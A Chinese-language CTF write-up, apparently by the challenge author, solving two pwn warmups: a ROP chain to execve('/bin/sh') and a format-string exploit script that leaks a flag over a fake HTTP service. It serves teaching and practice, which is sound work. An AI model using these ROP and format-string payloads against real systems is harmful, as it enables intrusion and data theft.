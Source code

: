 ## Debug Myself

这道题的想法其实来源于今年 [CakeCTF-2023](https://2023.cakectf.com/tasks/1918350021/) 的一道 `warmup` 题目 **`vtable4b`**，题目中非常形象地展示了 C++ 函数虚表的数据结构。做题时就感觉这种题目非常友善并且能从中学到很多东西。于是这次比赛中我按照 [pwndbg](https://github.com/pwndbg/pwndbg) 的界面把主函数的栈帧结构给显示出来了，也在 gift 中给了一些 `ROP gadget` 的地址，对题目的定位也是 `pwn` 部分的 `warmup` 题。题目源码见题解仓库。

这道题目没有附件，可以直接开启容器并连接查看输出，输入 `help` 指令会出来一个命令菜单：

![](images/Screenshot_2023-12-13_at_13.23.40.png)

从设定上来说，这道题不需要选手编写利用脚本来解题，只需要通过 `stack` 指令查看栈布局，通过 `gift` 指令获取 **`pop rdi ; ret`** 等语句的地址，最后通过 `set` 指令完成栈上数据的布置就能 **getshell**：

![](images/Screenshot_2023-12-13_at_13.46.20.png)

这里构造的是：

```nasm
; SYS_execve("/bin/sh", 0, 0)
pop rdi;
ret; rdi = addr -> "/bin/sh\x00"
pop rsi;
ret; rsi = 0
pop rdx;
ret; rdx = 0
pop rax;
ret; rax = SYS_execve
syscall;
ret;
```

其中有两个需要注意的地方：

- rdi 作为第一个参数，应当指向存放 `“/bin/sh\x00”` 的地址而非字符串本身，这个字符串有很多种方法获取，其实最简单的一个方法是直接在输入中输 `/bin/sh` 再查看栈上数据找到这个地址。题解中用的方法是输入字符串的小端序表示的十六进制数到特定地址上，再把这个地址传给 rdi。其实还可以直接到程序的 libc 中找这个字符串，在此不多赘述。
- 64 位 intel 程序在进行系统调用时，系统调用号应该放在 rax 寄存器中，关于这个系统调用号表可以直接到 linux 源码中找到：[https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl](https://github.com/torvalds/linux/blob/master/arch/x86/entry/syscalls/syscall_64.tbl)

---

# 小 Ne 的留言板

这是一道伪装成 Web 题的 Pwn，不过很好地被放在了 Pwn 分类下，预期解法是格式化字符串泄漏 `.bss` 段上的 flag 字符串，需要简单的脚本编写。题目源码见题解仓库。

题目提供了附件，对它进行简单的逆向工程可以发现它首先会监听本地的 31337 端口（比赛容器上则是动态端口，平台做了转发），然后会把 `flag` 作为 `secert_key` 读到全局变量上：

![](images/Screenshot_2023-12-13_at_22.11.48.png)

![](images/Screenshot_2023-12-13_at_22.14.23.png)

至于漏洞的发现，并不需要真的去逆向程序：

1. 题目描述：「但是页面上一直在跳出来奇怪的东西」
2. 随便构造一些输入（例如中文输入），界面上的信息就变成乱码了

![](images/Screenshot_2023-12-13_at_22.19.10.png)

再用 `checksec` 或 gdb 之类的工具看程序保护，发现是有地址随机化的，因此思路确定为：

发送三段 `payload`：

1. 先利用栈上残留信息得到程序基址偏移

```python
payload = get_payload(b"%16$p")
s(payload)
ru(b"DEBUG: ")
elf_base = int(io.recv(), 16) - 0x3272
lg("elf_base", elf_base)
```

1. 再把目标地址写到缓冲区里，调试定位缓冲区

```python
payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
s(payload)
ru(b"DEBUG: ")
```

1. 最后用 `%s` 偷出 `secert_key`

```python
payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")
```

完整利用脚本如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

def get_payload(name):
    payload = b"GET /index.html?name=" + name
    payload += b" HTTP/1.1\n"
    payload += b"\n"
    return payload

# 跑三次，一次找基址，一次写 target，最后 %s

# payload = get_payload(b"%16$p")
# s(payload)
# ru(b"DEBUG: ")
# elf_base = int(io.recv(), 16) - 0x3272
# lg("elf_base", elf_base)

elf_base = 0x55EC502DC000

# payload = get_payload(b"a" * 7 + p64(elf_base + 0x5040) * 3)
# s(payload)
# ru(b"DEBUG: ")

payload = get_payload(b"%97$s")
s(payload)
ru(b"DEBUG: ")

ia()

"""
unused:

# canary = 0x1A8DD3A7FCD2CA00

# payload = get_payload(b"%12$p")
# s(payload)
# ru(b"DEBUG: ")
# canary = int(io.recv(), 16)
# lg("canary", canary)
"""
```

